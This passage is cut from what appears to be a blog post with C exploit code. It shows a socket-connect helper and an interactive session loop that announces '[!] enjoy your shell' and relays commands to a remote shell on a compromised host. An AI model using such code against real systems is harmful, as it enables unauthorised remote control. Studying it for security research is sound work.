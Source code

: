 	}
 
	if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
		handle_error("socket failed !!!\n");
	}
 
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = ia.s_addr;
 
	if(connect(sock, (struct sockaddr *)&sa, sizeof(sa)) == -1) {
		handle_error("connection failed !!!!\n");
	}
 
	return sock;
}
 
void session(int s)
{
	char buf[1024];
	int amt;
 
	fd_set fds;
 
	printf("[!] enjoy your shell \n");
	fputs(COLOR_SHELL, stderr);
	FD_ZERO(&fds);
	while(1) {
		FD_SET(s, &fds);
		FD_SET(0, &fds);
		select(s+1, &fds, NULL, NULL, NULL);
 
		if(FD_ISSET(0, &fds)) {
			if((amt = read(0, buf, 1024)) == 0) {
				handle_error("connection lost\n");
			}
			buf[amt] = '\0';
			write(s, buf, strlen(buf));
		}
 
		if(FD_ISSET(s, &fds)) {
			if((amt = read(s, buf, 1024)) == 0) {
				handle_error("connection lost\n");
			}
			buf[amt] = '\0';
			printf("%s", buf);
			fputs(COLOR_SHELL, stderr);
		}
	}
}
 
int handle_error(char *msg)
{
	perror(msg);
	exit(-1);
}
{% endhighlight %}


[haka-blur]: {{site.baseurl}}/images/haka_blur.png